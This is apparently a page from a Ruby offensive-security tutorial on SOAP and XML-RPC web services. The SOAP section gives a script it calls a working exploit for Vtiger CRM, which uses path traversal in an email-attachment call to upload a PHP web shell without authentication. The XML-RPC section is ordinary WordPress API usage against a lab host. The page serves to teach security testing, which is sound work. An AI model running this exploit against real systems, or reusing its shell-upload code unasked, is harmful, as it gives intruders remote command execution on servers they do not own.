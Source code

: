 # Interacting with Web Services

### SOAP - WSDL
Generally speaking, dealing with SOAP means dealing with XMLs that which WSDL describes how to use that SOAP. Ruby has really elegant way to do so and let's to get our hand dirty with an exploit

```
gem install savon httpclient
```

This is a working exploit for Vtiger CRM SOAP from Auth-bypass to Shell upload 
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
# gem install savon httpclient
#
require 'savon'

if ARGV.size < 1
  puts "[+] ruby #{__FILE__} [WSDL URL]"
  exit 0
else
  url = ARGV[0]
end

shell_data, shell_name = "<?php system($_GET['cmd']); ?>", "shell-#{rand(100)}.php"

# Start client 
client = Savon::Client.new(wsdl: url)

# List all avialable operations 
puts "[*] List all available operations "
puts client.operations

puts "\n\n[*] Interact with :add_email_attachment operation"
response = client.call( :add_email_attachment, 
                        message: {
                                     emailid:  rand(100),
                                     filedata: [shell_data].pack("m0"),
                                     filename: "../../../../../../#{shell_name}",
                                     filesize: shell_data.size,
                                     filetype: "php",
                                     username: "KING", 
                                     sessionid: nil
                                }
                      )
puts "[+] PHP Shell on:  http://#{URI.parse(url).host}/vtigercrm/soap/#{shell_name}?cmd=id"

```



### XML-RPC
Ruby has a [standard library][2] called `xmlrpc` which take care of all xmlrpc stuff you can even create an xmlrpc server using it. Let's  to get  Some real word example 

Looking for really known application that support XMLRPC then of course Wordpress was the first attendee. 

So what do we want to do?
- Say hello to wordpress 
- List all available methods
- List all available users
- List all available post
- Create a new post!
- Retrieve created post 


```ruby
require 'xmlrpc/client'

opts =
    {
        host: '172.17.0.2',
        path: '/xmlrpc.php',
        port: 80,
        proxy_host: nil,
        proxy_port: nil,
        user: 'admin',
        password: '123123',
        use_ssl: false,
        timeout: 30
    }

server = XMLRPC::Client.new(
    opts[:host], opts[:path], opts[:port],
    opts[:proxy_host], opts[:proxy_port],
    opts[:user], opts[:password],
    opts[:use_ssl], opts[:timeout]
)

server = XMLRPC::Client.new3(opts)

# Say hello to wordpress
response = server.call("demo.sayHello")

# List all available methods
server.call('system.listMethods', 0)

# List all available users
server.call('wp.getAuthors', 0, opts[:user], opts[:password])

# List all available post
response = server.call('wp.getPosts', 0, opts[:user], opts[:password])

# Create a new post!
post =
    {
        "post_title"     => 'Rubyfu vs WP XMLRPC',
        "post_name"      => 'Rubyfu vs Wordpres XMLRPC',
        "post_content"   => 'This is Pragmatic Rubyfu Post. Thanks for reading',
        "post_author"    => 2,
        "post_status"    => 'publish',
        "comment_status" => 'open'
    }
response = server.call("wp.newPost", 0, opts[:user], opts[:password], post)

# Retrieve created post
response =  server.call('wp.getPosts', 0, opts[:user], opts[:password], {"post_type" => "post", "post_status" => "published", "number" => "2", "offset" => "2"})

# List all comments on a specific post
response =  server.call('wp.getComments', 0, opts[:user], opts[:password], {"post_id" => 4})

```

Results 

```
```

and here is the new post
![](webfu__xmlrpc1.png)









<br><br><br>
---
[1]:
[2]: http://ruby-doc.org/stdlib-2.2.3/libdoc/xmlrpc/rdoc/XMLRPC/Client.html
